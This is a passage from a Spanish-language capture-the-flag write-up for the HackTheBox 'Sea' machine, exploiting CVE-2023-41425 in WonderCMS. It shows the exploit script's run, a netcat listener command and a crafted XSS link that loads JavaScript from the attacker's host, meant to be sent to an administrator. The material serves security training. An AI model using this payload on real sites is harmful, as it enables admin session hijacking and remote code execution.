 ![WonderCMS](/assets/writeups/sea/3.png)

Suponiendo que este es el CMS utilizado por la página encontraremos vulnerabilidades e incluso un [PoC](https://gist.github.com/prodigiousMind/fc69a79629c4ba9ee88a7ad526043413), este CVE-2023-41425 nos indica que hay un XSS en la parte de login del CMS, y en una imagen podemos ver como funciona precisamente.

Tomando el script de Python y ejecutándolo, nos generará un script de JavaScript (válgame la redundancia) que se usará en un servidor http, y al mismo tiempo nos dará un payload XSS para enviárselo a un administrador:

```bash
❯ python exploit.py http://sea.htb/loginURL 10.10.14.78 443
[+] xss.js is created
[+] execute the below command in another terminal

----------------------------
nc -lvp 443
----------------------------

send the below link to admin:

----------------------------
http://sea.htb/index.php?page=loginURL?"></form><script+src="http://10.10.14.78:8000/xss.js"></script><form+action="
----------------------------


starting HTTP server to allow the access to xss.js
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

